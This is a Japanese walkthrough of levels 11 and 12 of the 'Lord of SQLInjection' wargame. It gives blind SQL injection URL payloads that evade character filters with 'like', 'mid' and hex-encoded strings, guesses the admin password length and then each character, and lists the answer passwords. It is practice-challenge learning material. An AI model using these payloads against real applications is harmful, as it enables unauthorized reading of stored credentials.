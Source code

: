 # Lord of SQLInjection writeup 11-15
## 11 - golem
04,07と同じだが禁止文字が増え、`substr`も`=`も使えない。    
`=`の代わりに、文字列は`like`、数値は`<`を使ってみる。  
```
?pw='||id like'admin'%26%26length(pw)<2%23
?pw='||id like'admin'%26%26length(pw)<3%23
:
?pw='||id like'admin'%26%26length(pw)<8%23
?pw='||id like'admin'%26%26length(pw)<9%23
```
`<8`と`<9`のところで結果が変わったので、また8文字だろう。  
次はパスワードを1文字ずつ見ていくが、`substr`が使えないので`mid`を使ってみる。
```
?pw='||id='admin'%26%26mid(pw,1,1)like'0'%23
?pw='||id='admin'%26%26mid(pw,1,1)like'1'%23
?pw='||id='admin'%26%26mid(pw,1,1)like'2'%23
:
```
そろそろスクリプトで自動化しないとつらい。

### 回答例
```
?pw=77d6290b
```
> query : select id from prob_golem where id='guest' and pw='77d6290b'

## 12 - darkknight
また同じパターンで、さらに禁止文字が増えている。  
`pw`は文字列が想定されており、SQL文で変数の前後が`'`で囲まれているが、`'`が禁止されているので、ここを抜け出すのはつらい。  
もう1つのパラメータ`no`は数値が想定されており、`'`を使わずに追加のクエリを書き始められるので、こちらを攻める。  

また8文字だろうと期待して試行。
`'`が使えないので問題03と同じく、Hex済みの`admin`を使う。   
数値にもlikeが使えたので、`<`を使うのはやめた。
```
?no=0 or id like 0x61646d696e and length(pw) like 8
```
パスワードを試していく。
```
?no=0 or id like 0x61646d696e and mid(pw,1,1) like 0
```
1文字目は`0`でうまくいったが、2文字目はどうも数字ではない模様。  
`'`が使えないので、16進数で表記した`a`、`0x61`から試していく。  
```
?no=0 or id like 0x61646d696e and mid(pw,2,1) like 0x61
?no=0 or id like 0x61646d696e and mid(pw,2,1) like 0x62
```
すぐ見つかってよかった。2文字目は`b`のようだ。あとはひたすら続ける。  

### 回答例
```
?pw=0b70ea1f
```
> query : select id from prob_darkknight where id='guest' and pw='0b70ea1f' and no=



























